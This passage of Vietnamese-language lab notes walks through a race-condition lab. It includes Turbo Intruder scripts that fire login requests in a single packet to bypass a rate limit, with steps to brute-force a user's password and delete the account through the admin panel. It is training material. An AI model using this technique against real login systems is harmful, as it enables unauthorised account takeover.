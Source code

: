         def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )
        
        # queue 20 requests in gate '1'
        for i in range(20):
            engine.queue(target.req, gate='1')
        
        # send all requests in gate '1' in parallel
        engine.openGate('1')
- Để thêm thông tin, hãy xem ```race-single-packet-attack.py``` bên trong thư mục ví dụ mặc định của Turbo Intruder
## Lab
- Lab này có cơ chế chống brute-force. Tuỳ nhiên thì có thể bypass bằng cách dùng race condition
- Để giải lab
  - Tìm ra cách khai thác race condition để bypass rate limit
  - Brute-force password của ```carlos```
  - Login và truy cập vào admin pane;
  - Xoá carlos
- Có thể login vào ```wiener:peter```
- Intercept nút login trong trang đăng nhập, chuột phải - extensions - turbo intruder - send to...
- Sửa tham số password thành %s ![image](https://github.com/Myozz/Web_Applications/assets/94811005/579d0140-7c73-455d-9375-f1ae11961c44)
- Dùng đoạn code

      def queueRequests(target, wordlists):

        # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=1,
                               engine=Engine.BURP2
                               )
        
        # assign the list of candidate passwords from your clipboard
        passwords = wordlists.clipboard
        
        # queue a login request using each password from the wordlist
        # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
        for password in passwords:
            engine.queue(target.req, password, gate='1')
        